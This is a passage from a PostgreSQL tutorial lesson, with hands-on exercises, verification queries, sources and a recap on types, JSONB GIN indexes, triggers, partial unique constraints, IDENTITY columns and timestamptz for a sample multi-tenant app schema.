**Exercise 1 — Run the schema.** Start PostgreSQL 17 in Docker as shown. Save the schema to `boardly_schema.sql` and run it. Inspect the result with `\d+ users`. Confirm the enum, the partial unique constraint, the JSONB GIN index, and the trigger are all present.

**Exercise 2 — Insert and query.** Insert an organization, a user, a project, and a task. Query `SELECT * FROM users WHERE metadata @> '{"locale":"fr-FR"}';` and verify it returns the row. Then run `EXPLAIN` (just `EXPLAIN`, no `ANALYZE`) on the query and confirm the planner uses the GIN index. (Deep dive on plan reading in Lesson 3.)

**Exercise 3 — Trigger verification.** Insert a user. Note its `updated_at`. Wait one second. Run `UPDATE users SET email = email || '.updated' WHERE id = ...; RETURNING updated_at;`. Confirm `updated_at` advanced. The trigger fired.

**Exercise 4 — Soft-delete and re-register.** Soft-delete a user (`UPDATE users SET deleted_at = now() WHERE email = 'alice@example.com';`). Insert a new user with the same email. Verify both rows exist and the partial unique constraint is satisfied. Try to insert a *second* active user with the same email — should fail.

**Exercise 5 — Spot the bug.** This schema has a subtle problem with `events`:

```sql
CREATE TABLE events (
 id bigint GENERATED ALWAYS AS IDENTITY,
 kind text NOT NULL,
 occurred_at timestamptz NOT NULL,
 payload jsonb NOT NULL DEFAULT '{}'::jsonb,
 PRIMARY KEY (id, occurred_at)
) PARTITION BY RANGE (occurred_at);
```

The `id` is not unique across partitions — only `(id, occurred_at)` is. What problem does this cause for the application? (Hint: think about how you'd page through events without `occurred_at` in the WHERE.)

**Exercise 6 — Range types.** Add a `task_schedule` table with a `tstzrange` `during` column (for scheduled work sessions on a task) and a GiST exclusion constraint preventing two scheduled sessions of the same task from overlapping. Insert two overlapping sessions and confirm the second is rejected. (This previews Lesson 2's GiST coverage.)

**Exercise 7 — Verify the GIN index is used.** Insert three organizations with `metadata = '{"locale":"fr-FR"}'` each (`psql -d academy -c "INSERT INTO organizations (slug, display_name, metadata) VALUES ('a','A','{\"locale\":\"fr-FR\"}'), ('b','B','{\"locale\":\"fr-FR\"}'), ('c','C','{\"locale\":\"fr-FR\"}');"`). Then run `psql -d academy -c "EXPLAIN (ANALYZE, BUFFERS) SELECT id FROM organizations WHERE metadata @> '{\"locale\":\"fr-FR\"}'::jsonb;"` and confirm the plan shows `Bitmap Index Scan on organizations_metadata_gin` (not `Seq Scan on organizations`). Drop the index (`psql -d academy -c "DROP INDEX organizations_metadata_gin;"`), re-run the EXPLAIN, and confirm it switches to `Seq Scan`. Recreate the index (`psql -d academy -c "CREATE INDEX organizations_metadata_gin ON organizations USING GIN (metadata);"`), re-run, and confirm the GIN is back.

**Exercise 8 — Trigger fires on UPDATE but not INSERT.** Insert a user, capture `updated_at` via `RETURNING`. Wait one second (`sleep 1` in your shell). Update the user with `psql -d academy -c "UPDATE users SET email = email || '.x' WHERE email = 'alice@example.com' RETURNING updated_at;"` and confirm the returned `updated_at` is at least one second after the INSERT's `updated_at`. Drop the trigger (`psql -d academy -c "DROP TRIGGER users_touch_updated_at ON users;"`), repeat the UPDATE, and confirm `updated_at` does *not* advance. Recreate the trigger (`psql -d academy -c "CREATE TRIGGER users_touch_updated_at BEFORE UPDATE ON users FOR EACH ROW EXECUTE FUNCTION touch_updated_at();"`). Verify with `psql -d academy -c "\\d+ users"` to confirm the trigger is listed under `Triggers:`.

**Exercise 9 — Edge cases for the partial unique constraint.** Soft-delete a user with email `bob@example.com` (`psql -d academy -c "UPDATE users SET deleted_at = now() WHERE email = 'bob@example.com';"`). Insert a new active user with the same email — expect success. Try inserting a *second* active user with the same email — expect `ERROR: duplicate key value violates unique constraint "users_email_active_uniq"`. Re-soft-delete the active one and try a third insert — expect success again. Verify the partial constraint logic with `psql -d academy -c "SELECT email, deleted_at IS NOT NULL AS soft_deleted FROM users WHERE email = 'bob@example.com' ORDER BY created_at;"` — expect multiple rows, at most one with `soft_deleted=false`.

**Exercise 10 — `GENERATED ALWAYS` rejects explicit inserts; `bigserial` does not.** Try `psql -d academy -c "INSERT INTO audit_log (id, action) VALUES (42, 'manual');"` — expect an error rejecting the explicit `id`. Switch to `psql -d academy -c "INSERT INTO audit_log (action) VALUES ('auto') RETURNING id;"` — expect success with a server-assigned `id`. Then demonstrate the `bigserial` trap: `psql -d academy -c "CREATE TABLE audit_log_legacy (id bigserial PRIMARY KEY, action text);"` then `psql -d academy -c "INSERT INTO audit_log_legacy (id, action) VALUES (42, 'manual');"` — expect success (and the sequence is *not* advanced). Verify the trap fires with `psql -d academy -c "INSERT INTO audit_log_legacy (action) VALUES ('next');"` — expect a `duplicate key value violates unique constraint` violation, confirming the `bigserial` footgun that `GENERATED ALWAYS` eliminates.

**Exercise 11 — `timestamptz` across session zones.** In one `psql` session, `psql -d academy -c "SET timezone='UTC'; INSERT INTO organizations (slug, display_name) VALUES ('tz-test','TZ Test') RETURNING created_at;"` — capture the UTC `created_at`. In a *second* session (`psql -d academy -c "SET timezone='Asia/Tokyo'; SELECT slug, created_at FROM organizations WHERE slug='tz-test';"`), confirm the `created_at` reads out as JST (UTC + 9 hours) but represents the same moment. Then demonstrate the trap: `psql -d academy -c "CREATE TABLE tz_demo (ts timestamp, tstz timestamptz); INSERT INTO tz_demo VALUES (now(), now()); SET timezone='UTC'; SELECT * FROM tz_demo; SET timezone='Asia/Tokyo'; SELECT * FROM tz_demo;"` — expect the `ts` value to be the same wall-clock string in both queries (the bug) and the `tstz` value to display in the session zone (correct). Cross-link to [[06-SQL-Fundamentals/Transactions-Isolation-Locks]].

## Verification

```sql
-- 1. Verify IDENTITY is in use on audit_log
\d+ audit_log
-- Expected: Column "id" is "not null default nextval(...)" with "identity"

-- 2. Verify UUIDs are being generated
INSERT INTO organizations (slug, display_name) VALUES ('test', 'Test Co') RETURNING id;
-- Expected: a UUID like 6c7d8e2f-...

-- 3. Verify the enum
SELECT unnest(enum_range(NULL::membership_role));
-- Expected: owner, admin, member, billing

-- 4. Verify timestamptz behavior
SET timezone = 'UTC';
SELECT now();
SET timezone = 'Asia/Tokyo';
SELECT now();
-- The UTC moment is the same; the display differs by 9 hours.

-- 5. Verify the partial unique constraint
-- (Run Exercise 4's steps and confirm the behaviour)

-- 6. Verify the trigger
-- (Run Exercise 3 and confirm updated_at advances)
```

```bash
docker exec -it pg-academy psql -U postgres -d academy -c "\d+ users"
docker exec -it pg-academy psql -U postgres -d academy -c "SELECT unnest(enum_range(NULL::membership_role));"
docker exec -it pg-academy psql -U postgres -d academy -c "SET timezone='UTC'; SELECT now(); SET timezone='Asia/Tokyo'; SELECT now();"
```

## Previously Learned Here

These concepts were taught in earlier lessons. We link back instead of re-explaining:

- **`Relational model and constraints`** — [[06-SQL-Fundamentals/Relational-Model-and-Constraints]]. This lesson applies the relational model to PostgreSQL-specific types. The `FOREIGN KEY` clauses, the `UNIQUE` constraints, the `NOT NULL` defaults — all standard SQL, taught in the canonical lesson.
- **`Transactions (SQL)`** — [[06-SQL-Fundamentals/Transactions-Isolation-Locks]]. The `now()` function returns the *transaction start* timestamp, not the statement timestamp. That subtlety comes from the canonical lesson's coverage of `BEGIN`/`COMMIT` semantics.
- **`DeclarativeBase / Mapped`** — [[07-SQLAlchemy/03-Declarative-Base-and-Mapped]]. `Mapped[uuid.UUID]`, `Mapped[list[str]]`, `Mapped[dict]` in SQLAlchemy map to the `uuid`, `text[]`, `jsonb` types we used here. The mapping is the ORM lesson's job; we just designed the schema.
- **`Engine`** — [[07-SQLAlchemy/02-Engines-Connections-Pools]]. The connection string `postgresql+psycopg://...` that an SQLAlchemy engine uses to talk to this schema is taught in the canonical lesson.

## What's Next

In [[Indexes-Composite-and-Specialized]] we add the indexes that make these queries fast. You'll:

- Build the B-tree composite indexes that serve the per-tenant, per-project, per-card queries.
- Add a GIN index on the `tags text[]` arrays.
- Build the GiST exclusion constraint on the `bookings` table from Exercise 6.
- Add a BRIN index on the partitioned `events.occurred_at` column.
- Build partial and expression indexes for the "active-only" and "case-insensitive email" queries.
- Audit and prune indexes that aren't pulling their weight.

By the end of Lesson 2, every Boardly table will have exactly the indexes it needs — and no more. (Exercise 6 from this lesson renamed `bookings` to `task_schedule`; Lesson 2 will introduce a `bookings` table only as a sidebar for GiST exclusion on `tstzrange` if the schedule pattern is needed.)

## Sources

- PostgreSQL 17 — "Data Types" — <https://www.postgresql.org/docs/17/datatype.html> — accessed 2026-10-15 — Reference for every base type covered here.
- PostgreSQL 17 — "Numeric Types" — <https://www.postgresql.org/docs/17/datatype-numeric.html> — accessed 2026-10-15 — `numeric`, `serial`, `IDENTITY` semantics and storage.
- PostgreSQL 17 — "Date/Time Types" — <https://www.postgresql.org/docs/17/datatype-datetime.html> — accessed 2026-10-15 — `timestamptz` vs `timestamp`, time zone handling, parsing rules.
- PostgreSQL 17 — "JSON Types" — <https://www.postgresql.org/docs/17/datatype-json.html> — accessed 2026-10-15 — `jsonb` storage, the `json` vs `jsonb` distinction, `gen_random_uuid`.
- PostgreSQL 17 — "Enum Types" — <https://www.postgresql.org/docs/17/datatype-enum.html> — accessed 2026-10-15 — Enum lifecycle (add value cheap, remove value expensive).
- PostgreSQL 17 — "Range Types" — <https://www.postgresql.org/docs/17/rangetypes.html> — accessed 2026-10-15 — Range types, exclusion constraints, GiST backing.
- PostgreSQL 17 — "Array Types" — <https://www.postgresql.org/docs/17/arrays.html> — accessed 2026-10-15 — Array constructors, operators, GIN indexing.
- PostgreSQL 17 — "Table Partitioning" — <https://www.postgresql.org/docs/17/ddl-partitioning.html> — accessed 2026-10-15 — Partitioning strategies, key constraints, partition pruning.
- PostgreSQL 17 — `pgcrypto` — <https://www.postgresql.org/docs/17/pgcrypto.html> — accessed 2026-10-15 — `gen_random_uuid()` for older Postgres; in 13+ it is in core.

## What We Learned

Let's recap. In this lesson you:

- **Named PostgreSQL's type categories** — numeric, text, time, boolean, UUID, bytea, enumerated, composite, array, range, JSON.
- **Chose UUID primary keys for user-visible IDs** (`organizations`, `users`, `projects`, `tasks`, `comments`, `memberships`) and `bigint IDENTITY` for internal audit rows (`audit_log`, `events`).
- **Used `gen_random_uuid()`** as the default for UUID PKs, and learned it is in core (PostgreSQL 13+).
- **Compared `IDENTITY` to `SERIAL`** and learned why `GENERATED ALWAYS AS IDENTITY` is the SQL-standard, lifecycle-clean successor.
- **Used the JSONB operator family** — `@>`, `?`, `->`, `->>` — and indexed JSONB with GIN and an expression index.
- **Applied the "third index on a JSONB path, promote it" rule.**
- **Used arrays for tags, enums for stable short lists, and `timestamptz` everywhere.**
- **Defaulted to `timestamptz`** and learned why `timestamp without time zone` is almost never what you want.

Here's the mental model to walk away with: *every column in your schema is a trade. The type decides what the planner can do, what the index can do, and how the application must shape its data. Pick the type that earns its place — and the indexes and plans that follow will mostly take care of themselves.*

---

> A note from your teacher
You just designed a real schema. It is not the schema you will ship — every real schema evolves — but it has the spine of every multi-tenant app: unguessable IDs for what's user-visible, monotonic IDs for what's internal, JSONB for the unknown, `timestamptz` for the inevitable, an enum for the stable, and a trigger for what humans would forget. Next we add the indexes. The indexes are where the schema learns to scale.


---

**Tags:** #postgresql #types #jsonb #uuid #schema-design #review
**Previous:** [[00-PostgreSQL-MOC]]
**Next:** [[Indexes-Composite-and-Specialized]] →
